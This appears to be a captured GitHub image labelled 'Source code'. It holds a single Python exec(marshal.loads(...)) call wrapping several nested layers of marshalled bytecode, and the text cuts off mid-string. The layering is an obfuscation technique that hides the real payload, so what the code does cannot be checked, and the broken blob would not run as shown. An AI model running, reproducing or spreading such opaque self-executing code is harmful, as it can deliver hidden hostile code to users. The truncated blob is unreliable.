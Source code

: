 exec(marshal.loads('c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs%W\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\x90V\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xfbU\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNsfU\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs\xd1T\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x03\x00\x00\x00@\x00\x00\x00s!\x00\x00\x00d\x00\x00d\x01\x00l\x00\x00Z\x00\x00e\x00\x00j\x01\x00d\x02\x00\x83\x01\x00d\x01\x00\x04Ud\x01\x00S(\x03\x00\x00\x00i\xff\xff\xff\xffNs